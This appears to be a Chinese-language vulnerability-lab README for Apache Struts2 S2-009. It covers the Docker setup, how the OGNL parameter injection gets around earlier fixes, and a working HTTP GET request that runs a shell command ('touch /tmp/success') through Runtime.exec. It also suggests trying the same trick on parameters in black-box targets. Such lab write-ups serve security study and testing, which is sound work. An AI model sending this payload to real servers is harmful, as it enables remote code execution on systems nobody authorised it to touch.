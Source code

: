 # S2-009 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

> 前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。

Struts2对s2-003的修复方法是禁止`#`号，于是s2-005通过使用编码`\u0023`或`\43`来绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

## Exploit构造

测试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

由于该POC没有回显，所以调用的是`touch /tmp/success`命令，查看/tmp目录发现已经成功：

![](1.png)

黑盒情况下，这个洞也不是限制特别大。只要你在正常业务中找到传参的地方，就用该参数名可以试试。
